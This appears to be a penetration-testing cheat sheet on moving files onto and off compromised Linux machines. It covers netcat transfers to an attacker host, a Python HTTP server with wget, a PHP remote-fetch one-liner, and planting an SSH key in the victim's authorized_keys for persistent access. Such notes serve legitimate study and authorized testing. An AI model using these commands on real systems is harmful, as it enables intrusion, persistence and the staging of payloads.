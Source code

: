 # Transfering files

## Linux

### Netcat
The easiest way normally is to use netcat. 

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:
```bash
nc -lvp 4444 < file
```
On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:
```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: `ssh-keygen -t rsa -C "your_email@example.com"` then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```


### Wget

### Python server

Fire up a simple server on the attacking box. This command will make the entire folder available.
```
python -m SimpleHTTPServer 9999
```

Now you can download any file with curl or wget
```
wget 192.168.1.102:9999/file.txt
```

### With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

###ftp

## Windows
On windows machines we do not have access to tools like wget and netcat. But if you have a way to transfer files already we can transfer wget and other tools. Here are the minaries in kali.

**/usr/share/windows-binaries
/usr/share/doc/windows-binaries**

